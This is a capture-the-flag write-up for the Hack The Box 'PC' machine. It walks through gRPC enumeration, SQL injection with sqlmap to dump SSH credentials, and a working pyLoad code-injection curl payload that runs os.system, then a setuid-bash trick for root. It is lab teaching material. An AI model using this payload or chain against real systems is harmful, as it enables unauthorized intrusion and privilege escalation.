 ```yaml
---
title: "Hack The Box - PC [Easy]"
category: ctf-writeup
layout: post
---
```


This machine has only 2 ports open:

```
$ nmap 10.10.11.214 -Pn -p-
22/tcp    open  ssh
50051/tcp open  unknown
```

Using telnet to see what is `50051`, we get:

```
telnet 10.10.11.214 50051
Trying 10.10.11.214...
Connected to 10.10.11.214.
Escape character is '^]'.
?�?� �?^CConnection closed by foreign host.
```
 
Which is some random binary data. I've explored it with `hexdump`.

```
0000000 0000 0418 0000 0000 0000 0004 ff3f 00ff
0000010 0005 ff3f 00ff 0006 2000 fe00 0003 0000
0000020 0001 0400 0008 0000 0000 3f00 0000
000002e
```

I didn't figure out what it was, so I googled the port which led me to this question: https://stackoverflow.com/questions/55990378/i-tried-to-deploy-grpc-go-server-in-docker-and-expose-port-in-local-port-but-p 

I've figured out that this is some `rpc` server. Using `grpcui` we can see the following app structure.

```
$ grpcui -plaintext 10.10.11.214:50051
--- 

SimpleApp.LoginUser {
    username string
    password string
}
SimpleApp.RegisterUser {
    username string
    password string
}
SimpleApp.getInfo {
    id string
}

```

I've used `admin:admin` to login, and I got a token and a data:

```json
{
  "message": "Your id is 80."
}

// token	b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODUxODM0MDh9.Hpp12rEGhXQONEN2yi65_NCuMQNN5fnvtJbFhI_PEZk'
```

I've used the `Request Metadata` to send the token when calling the getInfo procedure. 

```
Meta:
token:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODUxODM0MDh9.Hpp12rEGhXQONEN2yi65_NCuMQNN5fnvtJbFhI_PEZk

Data:
id: 80
```

This got me:

```
{
  "message": "Will update soon."
}
```

I have no idea what is happening at this point, and I decided to run `sqlmap` on those requests.

To do that I had to capture the request that is going to the server, I can proxy the UI's requests towards the RPC with `burp`. Start `burp` and intercept the gRPC Web UI and capture the request towards the server. Then save the request to `getInfo` into a file.

Using `sqlmap -r request_file --batch` we can dump the credentials for the user and login with the `ssh`.

Now the root is a bit tricky, I've noticed some processes that are running on port 8000 using `linpeas`. This port is inaccessible, so I had to forward the port to my host using ssh.

```
$ ssh -L 8000:127.0.0.1:8000 sau@10.10.11.214
```

Now I can access it, and it turns out to be pyLoad, searching around I saw this:

https://github.com/advisories/GHSA-pf38-5p22-x6h6
https://github.com/pyload/pyload/commit/7d73ba7919e594d783b3411d7ddb87885aea782d
https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/

Where I can see the following payload

```
curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'
```

Decoding the payload on the `jk` param: `pyimport os;os.system("touch /tmp/pwnd");f=function f2(){};`

Now we just have to encode `chmod +s /bin/bash` into `os.system()`. After executing that payload, we can launch bash in privilege mode `bash -p` and I got root.
